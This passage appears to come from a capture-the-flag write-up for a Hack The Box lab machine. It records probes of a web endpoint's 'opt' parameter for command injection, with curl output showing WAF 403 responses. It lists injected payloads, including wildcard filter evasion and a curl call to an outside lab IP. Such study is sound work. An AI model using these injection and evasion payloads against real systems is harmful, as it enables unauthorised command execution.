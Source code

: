 ```
< 
* Closing connection 0

```

If i put in something else for `opt` without the ‘:

```

root@kali# curl -v "http://fluxcapacitor.htb/sync?opt=ls" -x http://127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* Connected to (nil) (127.0.0.1) port 8080 (#0)
> GET http://fluxcapacitor.htb/sync?opt=ls HTTP/1.1
> Host: fluxcapacitor.htb
> User-Agent: curl/7.81.0
> Accept: */*
> Proxy-Connection: Keep-Alive
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< Date: Sat, 15 Jul 2023 10:10:25 GMT
< Content-Type: text/html
< Content-Length: 175
< Connection: close
< 
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty/1.13.6.1</center>
</body>
</html>
* Closing connection 0

```

Tried a bunch of different stuff, all that returns 403:
- `http://fluxcapacitor.htb/sync?opt='echo'`
- `http://fluxcapacitor.htb/sync?opt='echo`
- `http://fluxcapacitor.htb/sync?opt='pwd`
- `http://fluxcapacitor.htb/sync?opt='/bin/ls`
- `http://fluxcapacitor.htb/sync?opt='/usr/bin/curl+10.10.15.147`
- `http://fluxcapacitor.htb/sync?opt='wget`
- `http://fluxcapacitor.htb/sync?opt=wget`

Other stuff returns the time (api working correctly), and these have the same Server: SuperWAF header in the response:
- `http://fluxcapacitor.htb/sync?opt=''`
- `http://fluxcapacitor.htb/sync?opt='.'`
- `http://fluxcapacitor.htb/sync?opt='/'`

Other stuff returns an empty line:
- `http://fluxcapacitor.htb/sync?opt='/`
- `http://fluxcapacitor.htb/sync?opt='/b`
- `http://fluxcapacitor.htb/sync?opt='/bin`
- `http://fluxcapacitor.htb/sync?opt='/bin/l`
- `http://fluxcapacitor.htb/sync?opt='/bin/l?`
- `http://fluxcapacitor.htb/sync?opt='/usr/bin/cur?+10.10.15.147`
